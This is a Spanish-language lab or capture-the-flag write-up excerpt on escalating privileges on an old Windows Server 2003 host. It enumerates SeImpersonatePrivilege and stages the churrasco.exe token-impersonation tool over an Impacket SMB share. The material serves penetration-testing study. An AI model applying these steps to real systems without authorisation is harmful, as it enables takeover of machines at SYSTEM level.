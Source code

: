 ## Privilege Escalation

### Token Kidnapping - Churrasco

Revisando los permisos que dispone el usuario actual `NT AUTHORITY\NETWORK SERVICE`, nos encontramos que dispone del privilegio de `SeImpersonatePrivilege`.

```powershell
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

Podríamos hacer uso de `JuicyPotato`, `PrintSpoofer`, etc, pero en este caso al tratarse de un equipo tan antiguo como es el `Windows Server 2003`, nos darían diversos problemas.

```powershell
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
```

Buscando por Internet como poder explotar este privilegio desde un `Windows Server 2003`, nos encontramos con el siguiente blog el cual mencionan un binario llamado `churrasco.exe` que hace una función similar a `JuicyPotato`.

{% embed url="https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/" %}

Nos descargaremos el binario en nuestro equipo y lo compartiremos a través de un servidor SMB.

```bash
❯ ls -l churrasco.exe
.rw-rw-r-- kali kali 30 KB Sun Jan 26 05:37:16 2025  churrasco.exe

❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
